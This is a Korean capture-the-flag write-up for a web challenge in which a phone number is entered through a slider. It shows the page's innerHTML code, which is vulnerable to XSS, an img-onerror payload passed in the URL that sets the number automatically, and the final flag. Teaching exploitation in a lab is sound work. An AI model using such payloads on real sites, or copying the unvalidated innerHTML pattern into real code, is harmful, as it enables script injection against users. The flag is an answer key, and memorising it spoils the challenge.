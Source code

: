 # 문제 12 - Phone Number Challenge Solution

## 문제 설명
이 문제는 웹 페이지에서 제시된 전화번호(070-8272-9218)를 입력하는 웹 해킹 문제입니다. 전화번호는 슬라이더를 통해 입력해야 하며, XSS 취약점을 이용하여 우회할 수 있습니다.

## 풀이 과정

### 1. 정상적인 풀이 방법
1. 웹 페이지에 접속하면 슬라이더가 표시됩니다.
2. 슬라이더를 조작하여 목표 전화번호인 070-8272-9218을 입력합니다.
3. "전화 걸기" 버튼을 클릭하여 정답을 제출합니다.

### 2. XSS 취약점을 이용한 풀이
1. URL 파라미터 `shared`를 통해 XSS 공격이 가능합니다.
2. 취약점이 발생하는 소스코드는 다음과 같습니다:
```javascript
function getSharedNumber() {
    const urlParams = new URLSearchParams(window.location.search);
    const shared = urlParams.get('shared');
    if (shared) {
        // XSS 취약점: shared 파라미터 값을 직접 innerHTML로 삽입
        document.getElementById('selectedNumber').innerHTML = '선택된 번호: ' + shared;
        // 슬라이더 값도 업데이트
        if (!isNaN(shared.replace(/-/g, ''))) {
            slider.value = shared.replace(/-/g, '');
        }
    }
}
```
위 코드에서 `innerHTML`을 사용하여 검증 없이 `shared` 파라미터 값을 직접 삽입하는 부분이 XSS 취약점을 발생시킵니다.

3. 다음과 같은 URL을 사용하여 전화번호를 자동으로 입력할 수 있습니다:
```
?shared=<img src=x onerror="document.getElementById('phoneSlider').value=7082729218;checkNumber();">
```
4. XSS 공격이 성공하면 자동으로 정답이 입력되고 플래그가 표시됩니다.

## 힌트
1. 전화번호는 하이픈(-)을 제외한 11자리 숫자입니다.
2. URL 파라미터를 통한 입력 검증 우회가 가능합니다.
3. JavaScript 이벤트 핸들러를 활용하여 자동화된 입력이 가능합니다.

## 사용된 기술
- XSS(Cross-Site Scripting): URL 파라미터를 통한 스크립트 주입
- DOM 조작: JavaScript를 통한 슬라이더 값 변경
- 입력 검증 우회: URL 파라미터를 이용한 입력 메커니즘 우회

## 최종 플래그
```
FLAG{C4ll_M3_M4yB3_B4by}
```